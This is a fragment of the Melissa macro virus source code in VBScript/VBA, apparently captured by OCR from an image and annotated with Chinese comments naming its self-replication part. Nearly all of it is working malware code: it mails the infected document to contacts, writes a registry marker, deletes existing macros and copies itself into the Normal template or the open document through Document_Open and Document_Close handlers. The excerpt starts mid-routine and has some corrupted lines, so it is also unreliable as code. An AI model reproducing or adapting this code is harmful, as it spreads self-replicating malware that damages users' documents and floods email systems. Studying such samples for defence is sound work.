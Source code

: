 ```vbscript
*** Here is the classic subject line "Important Message From" This could
change of course in future versions ***

         BreakUmOffASlice.Attachments.Add ActiveDocument.FullName
         BreakUmOffASlice.Send
         Peep = ""
    Next y
  DasMapName.Logoff
  End If
  System.PrivateProfileString("",
      "HKEY_CURRENT_USER\Software\Microsoft\Office\", "Melissa?") =
       "... by Kwyjibo"
End If
'Part3
        '病毒自我复制部分
        '根据情况对Active Document或Normal Template进行感染
        '
Set ADI1 = ActiveDocument.VBProject.VBComponents.Item(1)
Set NTI1 = NormalTemplate.VBProject.VBComponents.Item(1)
NTCL = NTI1.CodeModule.CountOfLines
ADCL = ADI1.CodeModule.CountOfLines
BGN = 2
If ADI1.Name <> "Melissa" Then
  If ADCL > 0 Then _
    ADI1.CodeModule.DeleteLines 1, ADCL
    Set ToInfect = ADI1
    ADI1.Name = "Melissa"
    DoAD = True
  End If
  If NTI1.Name <> "Melissa" Then
    If NTCL > 0 Then _
      NTI1.CodeModule.DeleteLines 1, NTCL
      Set ToInfect = NTI1
      NTI1.Name = "Melissa"
      DoNT = True
    End If
    If DoNT <> True And DoAD <> True Then GoTo END
      If DoNT = True Then
        Do While ADI1.CodeModule.Lines(1, 1) = ""
          ADI1.CodeModule.DeleteLines 1
        Loop
        ToInfect.CodeModule.AddFromString ("Private Sub Document_Close()")
        Do While ADI1.CodeModule.Lines(BGN, 1) <> ""
          ToInfect.CodeModule.InsertLines BGN, ADI1.CodeModule.Lines(BGN, 1)
          BGN = BGN + 1
        Loop
      End If
      If DoAD = True Then
        Do While NTI1.CodeModule.Lines(1, 1) = ""
          NTI1.CodeModule.DeleteLines 1
        Loop
        ToInfect.CodeModule.AddFromString ("Private Sub Document_Open()")
        Do While NTI1.CodeModule.Lines(BGN, 1) <> ""
          ToInfect.CodeModule.InsertLines BGN, NTI1.CodeModule.Lines(END, 1)
            BGN = BGN + 1
        Loop
      End If
CYA:
      If NTCL <> 0 And ADCL = 0 And
          (InStr(1, ActiveDocument.Name, "Document") = False) Then
        ActiveDocument.SaveAs FileName:=ActiveDocument.FullName
      ElseIf (InStr(1, ActiveDocument.Name, "Document") <> False) Then
        ActiveDocument.Saved = True
```